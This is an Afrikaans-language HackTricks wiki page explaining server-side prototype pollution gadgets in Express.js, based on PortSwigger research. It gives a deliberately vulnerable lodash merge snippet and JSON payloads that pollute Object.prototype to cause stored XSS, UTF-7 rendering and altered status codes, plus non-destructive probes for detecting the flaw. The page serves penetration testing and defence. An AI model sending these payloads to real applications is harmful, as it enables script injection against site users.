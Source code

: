 # Express Prototype Pollution Gadgets

{% hint style="success" %}
Leer & oefen AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Leer & oefen GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Ondersteun HackTricks</summary>

* Kyk na die [**subskripsie planne**](https://github.com/sponsors/carlospolop)!
* **Sluit aan by die** 💬 [**Discord groep**](https://discord.gg/hRep4RUj7f) of die [**telegram groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Deel hacking truuks deur PRs in te dien na die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Dien XSS antwoorde aan

**Vir verdere besonderhede** [**kyk na die oorspronklike navorsing**](https://portswigger.net/research/server-side-prototype-pollution)

### Verander JSON inhouds tipe na HTML

In 'n Express-app wat 'n **JSON inhouds tipe antwoord** gebruik en 'n JSON reflekteer:
```javascript
app.use(bodyParser.json({type: 'application/json'}));
app.post('/', function(req, res){
_.merge({}, req.body);
res.send(req.body);
});
```
In hierdie gevalle is XSS normaalweg nie moontlik met 'n JSON-inhouds tipe nie. egter, met prototipe besoedeling kan ons **Express verwar om 'n HTML-antwoord te dien.** Hierdie kwesbaarheid is afhanklik van die toepassing wat **`res.send(obj)`** gebruik en die liggaam parser met die toepassing/json-inhouds tipe.
```json
{"__proto__":{"_body":true,"body":"<script>evil()"}}
```
Deur **`body`** en **`_body`** eienskappe te **pollute**, is dit moontlik om **Express te dwing om die HTML inhoud tipe** te bedien en die `_body` eienskap te reflekteer, wat lei tot gestoor XSS.

### Render UTF7

Dit is moontlik om express **UTF-7 inhoud te laat render met**:
```json
{"__proto__":{"content-type": "application/json; charset=utf-7"}}
```
## Veilige Scanning Tegnieke

### JSON spasie

Die volgende PP sal eienskappe binne 'n JSON 'n ekstra spasie gee wat die funksionaliteit nie sal breek nie:
```json
{"__proto__":{"json spaces": " "}}
```
Dan sal 'n weerspieëlde JSON soos volg lyk:
```json
{"foo":  "bar"} -- Note the extra space
```
### Blootgestelde Koppe

Die volgende PP-gadget sal die bediener laat terugstuur die HTTP-kop: **`Access-Control-Expose_headers: foo`**
```json
{"__proto__":{"exposedHeaders":["foo"]}}
```
Dit vereis dat die **CORS-module geïnstalleer moet wees**

### **OPTIONS Metode**

Met die volgende payload is dit moontlik om 'n **metode uit 'n OPTIONS-antwoord te verberg**:
```javascript
// Original reponse: POST,GET,HEAD

// Payload:
{"__proto__":{"head":true}}

//New response: POST;GET
```
### **Status**

Dit is moontlik om die **teruggegee statuskode** te verander met die volgende PP payload:
```json
{"__proto__":{"status":510}}
```
### Fout

Wanneer jy aan 'n prototipe met 'n primitiewe soos 'n string toewys, produseer dit 'n **geen-operasie nie, aangesien die prototipe 'n objek moet wees**. As jy probeer om 'n prototipe objek aan die `Object.prototype` self toe te wys, sal dit **'n uitsondering gooi**. Ons kan hierdie twee gedrag gebruik om **te detecteer of prototipe besoedeling suksesvol was**:
```javascript
({}).__proto__.__proto__={}//throws type exception
({}).__proto__.__proto__="x"//no-op does not throw exception
```
### Reflected Value

Wanneer 'n toepassing 'n objek in sy antwoord insluit, kan dit insiggewend wees om 'n attribuut met 'n **ongewone naam saam met `__proto__`** te skep. Spesifiek, as **slegs die ongewone attribuut in die antwoord teruggestuur word**, kan dit die toepassing se kwesbaarheid aandui:
```json
{"unusualName":"value","__proto__":"test"}
```
Boonop, in scenario's waar 'n biblioteek soos Lodash gebruik word, bied die instelling van 'n eienskap sowel via prototipe besoedeling (PP) as direk binne die objek 'n ander diagnostiese benadering. As so 'n eienskap uit die antwoord weggelaat word, dui dit daarop dat Lodash die bestaan van die eienskap in die teikenobjek verifieer voordat dit saamgevoeg word:
```javascript
{"__proto__":{"a":"value1"},"a":"value2","b":"value3"}
// If 'b' is the only property reflected, this indicates prototype pollution in Lodash
```
## Misc

### Laat Punte Toe

Daar is 'n opsie in Express wat jou toelaat om **objekte uit navraagstring parameters** te **skep**.\
Jy kan dit beslis in 'n fout **ketting** gebruik om 'n **prototype besmetting kwesbaarheid** te benut.
```json
{"__proto__":{"allowDots":true}}
```
**`?foo.bar=baz` skep 'n objek in Node.**

## Verwysings

* [https://portswigger.net/research/server-side-prototype-pollution](https://portswigger.net/research/server-side-prototype-pollution)


{% hint style="success" %}
Leer & oefen AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Leer & oefen GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Ondersteun HackTricks</summary>

* Kyk na die [**subskripsie planne**](https://github.com/sponsors/carlospolop)!
* **Sluit aan by die** 💬 [**Discord groep**](https://discord.gg/hRep4RUj7f) of die [**telegram groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Deel hacking truuks deur PRs in te dien na die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
